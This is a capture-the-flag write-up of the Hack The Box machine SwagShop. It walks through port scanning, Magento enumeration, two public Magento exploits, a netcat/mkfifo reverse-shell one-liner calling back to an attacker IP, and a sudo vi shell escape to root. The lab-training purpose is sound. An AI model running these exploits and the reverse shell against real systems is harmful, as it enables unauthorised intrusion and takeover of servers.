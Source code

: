 ```yaml
---
title: Swagshop - Hack The Box
excerpt: "SwagShop is one of those easy boxes where you can pop a shell just by using public exploits. It's running a vulnerable Magento CMS on which we can create an admin using an exploit then use another one to get RCE. To privesc I can run vi as root through sudo and I use a builtin functionality of vi that allows users to execute commands from vi so I can get root shell."
date: 2019-09-28
classes: wide
image: /assets/images/htb-writeup-swagshop/swagshop_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - magento
  - vi
  - sudo
---
```



SwagShop is one of those easy boxes where you can pop a shell just by using public exploits. It's running a vulnerable Magento CMS on which we can create an admin using an exploit then use another one to get RCE. To privesc I can run vi as root through sudo and I use a builtin functionality of vi that allows users to execute commands from vi so I can get root shell.

## Summary

- A Vulnerable Magento CMS 1.9.0 instance is running and we can use a CVE to create an admin account
- We then use another exploit to get RCE and a shell on the box
- `vi` is in the sudoers file for www-data and we can execute a shell as root from withing `vi` with `:!/bin/sh`

## Tools/Blogs used

- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
- Magento eCommerce - Remote Code Execution

## Detailed steps

### Portscan

```
# nmap -sC -sV -p- 10.10.10.140
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-11 20:52 EDT
Nmap scan report for swagshop.htb (10.10.10.140)
Host is up (0.011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Website enumeration

The website is running the Magento CMS:

![](/assets/images/htb-writeup-swagshop/webpage.png)

Gobuster finds the directories associated with Magento:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 50 -u http://10.10.10.140
/app (Status: 301)
/downloader (Status: 301)
/errors (Status: 301)
/favicon.ico (Status: 200)
/includes (Status: 301)
/js (Status: 301)
/lib (Status: 301)
/media (Status: 301)
/pkginfo (Status: 301)
/server-status (Status: 403)
/shell (Status: 301)
/skin (Status: 301)
/var (Status: 301)
=====================================================
2019/05/11 20:57:10 Finished
=====================================================
```

Indexing is on for those directories:

![](/assets/images/htb-writeup-swagshop/indexing.png)

I have access to `/app/etc/local.xml` which contains the encrypted database password and the encryption key.

![](/assets/images/htb-writeup-swagshop/local.png)

I could not find any public tool to decrypt the password and because this is a 20 pts box there's probably some generic CVE exploit online that I can use.

### Getting a shell

A quick look with `searchsploit magento` shows the two interesting exploits:

- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
- Magento eCommerce - Remote Code Execution

The `Magento eCommerce - Remote Code Execution` exploit creates a new admin account with `forme/forme` as credentials. I just need to modify the target and the exploit and launch it to get an admin account:

```
# python 37997.py
WORKED
Check http://10.10.10.140/index.php/admin with creds form
```

I can now log in to the admin panel:

![](/assets/images/htb-writeup-swagshop/admin1.png)

![](/assets/images/htb-writeup-swagshop/admin2.png)

I'll use the other exploit `Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution` to gain remote code execution. I need to change the `username`, `password`, and `install_date` parameters. The `install_data` is in the `local.xml` I found earlier.

```
username = 'forme'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
```

Launching exploit to spawn a reverse shell:

```
python 37811.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 9999 >/tmp/f"

# nc -lvnp 9999
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:44376.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls
haris
$ cat haris/user.txt
a44887...
```

### Privesc

The privesc is obvious: The `www-data` user can execute `vi` as root. I know I can spawn a shell from within `vi` with `:!/bin/sh` and it'll run as root because of sudo.

```
$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/home$ sudo /usr/bin/vi /var/www/html/pwn -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
c2b087...

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
#
```